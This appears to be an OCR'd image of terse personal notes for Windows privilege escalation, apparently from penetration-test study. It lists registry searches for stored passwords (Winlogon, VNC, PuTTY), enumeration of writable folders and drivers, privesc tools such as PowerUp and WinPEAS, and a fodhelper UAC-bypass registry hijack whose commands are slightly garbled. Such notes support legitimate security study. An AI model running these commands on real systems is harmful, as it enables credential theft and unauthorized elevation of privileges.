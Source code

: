 	net stop Serviio
wmic service where caption="<SERVICENAME>" get name,caption,state,startmode
gci "C:\Program Files" -Recurse|Get-ACL|?[$_.AccessToString -match "Everyone\sAllow\sModify"}
mountvol 		
driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object 'Display Name','Start Mode',Path
driverquery /v
Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName,DriverVersion,Manufacturer|Where-Object {$_.DeviceName -like "*VMware*"}
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
reg query "HKCU\Software\ORL\WinVNC3\Password"
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

# Enumerate Auto-Elevating Binaries (AlwaysInstallElevated)
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer

// AUTOMATED PE CHECK SCRIPTS
https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation
https://www.fuzzysecurity.com/tutorials/16.html
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html
https://guif.re/windowseop
Powerless.bat
JAWS.ps1
Sherlock.ps1 (Find-AllVulns)
PowerUp.ps1 (Invoke-AllChecks)
WinPEAS.exe
windows-privesc-check2.exe --dump -G					# Windows privesc shows groups on system
windows-privesc-check2.exe --audit --all -o output.txt	# Windows privesc shows all system data
windows-exploit-suggester.py --impact "elevation of privilege" systeminfo.txt
	
// DLL HIJACKING (WINDOWS 7)
# check for IKEEXT service
??????????????????????????????????

// UAC BYPASS
# https://ivanitlearning.wordpress.com/2019/07/07/bypassing-default-uac-settings-manually/
powershell-empire: get agent on box; interact with agent; bypassuac
locate bypassuac-x86.exe
locate bypassuac-x64.exe
rdesktop 10.11.1.221 -u administrator -p password (can use GUI to click accept)
sigcheck.exe -a -m C:\Windows\System32\fodhelper.exe (check app XML file manifest of when it starts)
REG ADD HKCU\Software\Classes\ms-settings\shell\open\command
REG ADD HKCU\Software\Classes\ms-settings\shell\open\command /v DelegateExecute /t REG_SZ
REG ADD HKCU\Software\Classes\ms-settings\shell\open /d cmd.exe /f
